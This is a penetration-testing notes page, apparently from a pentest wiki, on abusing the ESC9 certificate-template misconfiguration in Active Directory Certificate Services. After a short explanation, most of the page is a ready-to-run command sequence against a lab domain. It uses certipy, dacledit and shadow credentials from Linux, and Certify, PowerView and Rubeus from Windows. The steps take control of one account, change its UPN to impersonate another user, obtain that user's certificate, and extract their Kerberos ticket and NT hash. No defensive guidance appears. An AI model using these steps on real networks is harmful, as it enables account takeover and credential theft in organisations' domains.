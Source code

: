 ```yaml
---
description: ESC | Active Directory Certificate Services
---
```


# ESC9

If the **`msPKI-Enrollment-Flag`** attribute of a certificate template includes the `CT_FLAG_NO_SECURITY_EXTENSION` flag, it prevents the addition of the `szOID_NTDS_CA_SECURITY_EXT` security extension to certificates issued from that template.

An attacker can exploit the loophole in certificate mapping by misusing privileges and manipulating a user’s **User Principal Name (UPN).**

1. **UPN Manipulation**\
   User Principal Name can be changed to match the UPN of another account or target.
2. **Requesting a certificate**\
   Using those legit credentials or original UPN, request a certificate on behalf of that user.
3. **Certificate Mapping**\
   Associate issued certificate matching the altered UPN.
4. **Result**\
   Attacker has valid certificate mapped to target account.

```bash
# Find vulnerabilities
certipy-ad find -u 'zen@lab.local' -p 'Password123!' -dc-ip 10.129.228.236 -vulnerable -stdout

# Showing
[!] Vulnerabilities                                             
      ESC9                              : 'LAB.LOCAL\\Domain Users' can enroll and template has no security extension 
```

If we want to compromise user3 we need to have FullControl rights over any account. We can modify user2's UPN to match our target user3's UPN. Then request certificate as user2 and we will receive the certificate for user3.

#### Find FullControl rights account

```bash
dacledit.py -action read -dc-ip 10.129.205.199 lab.local/blwasp:Password123! -principal blwasp -target user2
```

#### Add extra password with Shadow Credentials

```bash
certipy shadow auto -u 'BlWasp@lab.local' -p 'Password123!' -account user2
```

#### Modify UPN user2 to target UPN of user3.

```bash
certipy account update -u 'BlWasp@lab.local' -p 'Password123!' -user user2 -upn user3@lab.local
```

#### Request certificate with user2

```bash
certipy req -u 'user2@lab.local' -hashes 2b576acbe6bcfda7294d6bd18041b8fe -ca lab-LAB-DC-CA -template ESC9
```

#### Revert back to user2

```bash
certipy account update -u 'BlWasp@lab.local' -p 'Password123!' -user user2 -upn user2@lab.local
```

#### Authenticate with certificate and get TGT and hash

```bash
certipy auth -pfx user3.pfx -domain lab.local
```

### <mark style="color:yellow;">ESC9 Abuse from Windows</mark>

Enumeration with Certify.exe

```powershell
# Certify
.\Certify.exe find /vulnerable

# Check if registry is set to 1
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc

# Or CertificateMappingMethods is 0x4
reg query HKLM\System\CurrentControlSet\Control\SecurityProviders\Schannel\

# With powerview check privileges
$blwasp=(Get-DomainUser -Identity blwasp)
Get-DomainObjectAcl -LDAPFilter "(&(objectClass=user)(objectCategory=person))" -ResolveGUIDs | ? {($_.ActiveDirectoryRights -contains "GenericAll" -or $_.ActiveDirectoryRights -contains "GenericWrite") -and $_.SecurityIdentifier -eq $blwasp.objectsid}
```

#### Attack from Windows

```powershell
# Password reset
Set-DomainUserPassword -Identity user2 -AccountPassword $((ConvertTo-SecureString 'Newpassword123!' -AsPlainText -Force)) -Verbose

# Change user2 UPN to match user 3
Set-DomainObject user2 -Set @{'userPrincipalName'='user3@lab.local'} -Verbose

# Request Certificate using ESC9 and alt SAN user3
.\Certify.exe request /ca:LAB-DC.lab.local\lab-LAB-DC-CA /template:ESC9 /altname:user3

# Conver to pfx
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in .\user3.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out user3.pfx

# Get ticket TGT as user3
.\Rubeus.exe asktgt /user:user3 /certificate:user3.pfx /getcredentials /nowrap
```
